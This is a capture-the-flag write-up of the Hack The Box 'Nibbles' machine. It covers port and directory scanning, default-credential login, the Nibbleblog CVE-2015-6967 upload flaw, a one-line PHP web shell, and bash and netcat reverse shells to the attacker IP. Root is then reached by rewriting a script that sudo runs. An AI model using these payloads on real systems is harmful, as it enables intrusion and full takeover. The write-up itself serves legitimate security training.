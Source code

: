 ```yaml
---
title: "Nibbles HTB Writeup"
publishedAt: "2018-07-01"
updatedAt: "2020-10-12"
summary: "Writeup of the Nibbles HackTheBox machine."
---
```


- Creator: [@mrb3n](https://www.hackthebox.eu/home/users/profile/2984)
- Host: [hackthebox.eu](https://hackthebox.eu)

## Owning User

Let's start up with the usual Nmap port scan.

> `~ ❯❯❯ nmap -sC -sV 10.10.10.75`

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-25 18:52 EEST
Nmap scan report for 10.10.10.75 (10.10.10.75)
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; pr
otocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 13.97 seconds
```

Looks like we have a webserver. Let's fire up our browser and have a look.

![10.10.10.75](/static/images/nibbles-hack-the-box-writeup/10.10.10.75.png)

Hello to you too! A simple `view-source` reveals an interesting directory:

```html
<b>Hello world!</b>


<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Navigating to the new directory, we find an empty blog.

![nibbleblog](/static/images/nibbles-hack-the-box-writeup/nibbleblog.png)

Let's try to `dirb` for any suspicious files within this 'empty' blog.

> `~ ❯❯❯ dirb http://10.10.10.75/nibbleblog/`

```bash
-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Jun 25 18:58:57 2018
URL_BASE: http://10.10.10.75/nibbleblog/
WORDLIST_FILES: /usr/local/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.75/nibbleblog/ ----


==> DIRECTORY: http://10.10.10.75/nibbleblog/admin/
+ http://10.10.10.75/nibbleblog/admin.php (CODE:200|SIZE:1401)

==> DIRECTORY: http://10.10.10.75/nibbleblog/content/
+ http://10.10.10.75/nibbleblog/index.php (CODE:200|SIZE:4743)

==> DIRECTORY: http://10.10.10.75/nibbleblog/languages/

==> DIRECTORY: http://10.10.10.75/nibbleblog/plugins/
+ http://10.10.10.75/nibbleblog/README (CODE:200|SIZE:4628)

==> DIRECTORY: http://10.10.10.75/nibbleblog/themes/

-----------------
END_TIME: Mon Jun 25 19:04:50 2018
DOWNLOADED: 4612 - FOUND: 3
```

The `admin.php` page seems interesting; we should have a look.

![admin](/static/images/nibbles-hack-the-box-writeup/admin.png)

A login screen. Let's give it some guessing shots to see if we can get lucky.

After a few tries, we notice that there's some sort of WAF, blacklisting users after consecutive failed authentication attempts.

![blacklist](/static/images/nibbles-hack-the-box-writeup/blacklist.png)

A few minutes later, we were able to retry.

The credentials `admin` for username and `nibbles` for password did the job, saving us from the trouble of bruteforcing our way in (using some dynamic proxy). Of course, it's Hack The Box; the machine's name always comes in handy at some point.

After conducting some research, we come accross a nibbleblog vulnerability: [CVE-2015-6967](https://seclists.org/fulldisclosure/2015/Sep/5). It turns out that we can upload any `php` script as an image in the "My image" plugin section. 

A dead simple php script should do the job:

```php
<?php

echo shell_exec($_GET['e']);
```

Once we upload our 'image' onto the bloggin platform, we can navigate to [10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php](http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=id) to see that we are now able to execute commands through our url bar!

![id](/static/images/nibbles-hack-the-box-writeup/id.png)

Evidently, we now have 'nibbler' privileges (i.e. user privileges). So, let's pop a reverse shell.

Firstly, we should create a file containing our reverse shell script inside the `/tmp/` directory, where we should logically have the appropriate permissions. 

```bash
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=/bin/echo "/bin/bash -i %3E%26 /dev/tcp/10.10.15.174/443 0%3E%261" > /tmp/reverse.txt
```

Subsequently, let's ensure that we have execute permissions to run the temporary file using `chmod 777`.

```bash
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=/bin/chmod 777 /tmp/reverse.txt
```

Finally, we can now fire up a listener on our local device using `netcat`  and execute our reverse shell file.

```bash
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=/bin/bash /tmp/reverse.txt/
```

We should now have a shell as user "nibbler":

> `root@kali:~/# nc -vlp 443`

```bash
listening on [any] 443 ...
connect to [10.10.15.174] from 10.10.10.75 [10.10.10.75] 39002
bash: cannot set terminal process group (1335): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 
```

We can subsequently navigate to the `/home/` directory where we can retrieve our first flag:

> `nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home/nibbler`

> `nibbler@Nibbles:/home/nibbler/$ cat user.txt`

```bash
{USER_HASH_GOES_HERE}
```

## Owning Root

Taking a look at the contents of nibbler's home directory, we can also find a zip folder called `personal.zip`. Let's try unzipping it.

> `nibbler@Nibbles:/home/nibbler/$ ls`

```bash
personal.zip
user.txt
```

> `nibbler@Nibbles:/home/nibbler/$ unzip personal.zip`

```bash
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

The archive inflated a new file called `monitor.sh`. Let's navigate to its directory.

> `nibbler@Nibbles:/home/nibbler/$ cd personal/stuff`

> `nibbler@Nibbles:/home/nibbler/personal/stuff/$ ls -la`

```bash
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

The file contains a bash script called [tecmint_monitor.sh](https://github.com/atarallo/TECMINT_MONITOR/blob/master/tecmint_monitor.sh) which, according to the creator, "monitors linux health"; that's beside the point though. Now, let's modify the contents of the file into a reverse shell script and try to run it as `root`. 

> `nibbler@Nibbles:/home/nibbler/personal/stuff/$ sed -i d monitor.sh`

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff/$ echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.15.174 7777 > /tmp/f" >> monitor.sh
```

> `nibbler@Nibbles:/home/nibbler/personal/stuff/$ sudo -u root monitor.sh`

We should make sure to open up a listener on the same port before running the above command and wait to see if we can get a connection.

> `root@kali:~/Desktop# nc -vlp 7777`

```bash
listening on [any] 7777 ...
connect to [10.10.15.174] from 10.10.10.75 [10.10.10.75] 49104
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

And there we have it! We now have root priviliges. Let's extract our `root.txt` hash.

```bash
# cd /root
# ls
root.txt
# cat root.txt
{ROOT_HASH_GOES_HERE}
```

I hope you enjoyed this walkthrough! Make sure to stay tuned for more *Hack The Box* writeups coming up soon!
